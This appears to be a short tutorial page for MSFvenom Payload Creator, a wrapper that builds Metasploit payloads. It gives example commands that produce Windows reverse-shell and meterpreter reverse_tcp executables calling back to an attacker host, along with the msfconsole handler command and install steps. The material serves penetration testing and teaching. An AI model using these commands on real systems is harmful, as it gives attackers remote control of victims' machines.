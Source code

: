 # MSFvenom Payload Creator (MSFPC)

MSFvenom Payload Creator (MSFPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as simple as possible (only requiring one input) to produce their payload.

    $ msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>)
    (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>)
    (<VERBOSE>)

* TYPE is the `-f` switch in msfvenom
* DOMAIN/IP is the LHOST option
* PORT is the LPORT option
* CMD/MSF is the type of shell dropped once the payload is executed on the target system.
* BATCH/LOOP to generate multiple payloads (multiple OS platforms) with a single command.

A classic reverse shell payload (generating a payload with a `cmd` as the preferred shell for
Windows, setting the `LHOST` to the IP retrieved from the eth0 Ethernet interface of the Kali machine):

    $ msfpc cmd windows eth0
    
Two files are created, an executable payload by name of `windows-shell-staged-reverse-tcp-443.exe`, and a resource file named `windows-shell-staged-reverse-tcp-443-exe.rc`, useful for automating repetitive tasks in Metasploit. Resource scripts can chain series of Metasploit console commands and directly embed Ruby to do things such as call APIs, interact with objects in the database, and iterate actions.

Drop msf windows:

    $ msfpc msf windows eth0

The payload is now set to a `windows/meterpreter/reverse_tcp`. The associated resource file can be executed with:

    msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-443-exe.rc'

When the payload is executed, the stager will request for other parts of the payload to be sent over to the target server. These parts of the payload will be sent by payload handler and the complete staged payload is delivered to the victim machine.

MSFvenom Payload Creator is preinstalled in Kali. On other *nix, install it with:

    git clone https://github.com/g0tmi1k/mpc

Set execute permission on the `msfpc.sh` file:

    cd mpc/
    chmod +x msfpc.sh

Start her up with:

    ./msfpc.sh
